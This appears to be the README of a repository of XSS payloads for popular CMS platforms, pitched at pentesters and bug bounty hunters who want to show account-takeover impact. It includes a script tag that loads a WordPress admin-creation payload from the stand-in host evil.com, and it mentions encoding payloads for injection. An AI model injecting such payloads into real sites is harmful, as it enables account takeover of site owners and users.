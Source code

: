 # Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

## The Blog Post
This repo was released alongside a blogpost titled "How to Upgrade Your XSS Bugs from Medium to Critical" https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

## What is this?

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Pull requests are welcome.

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
<script src="http://evil.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly into the request.

## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.
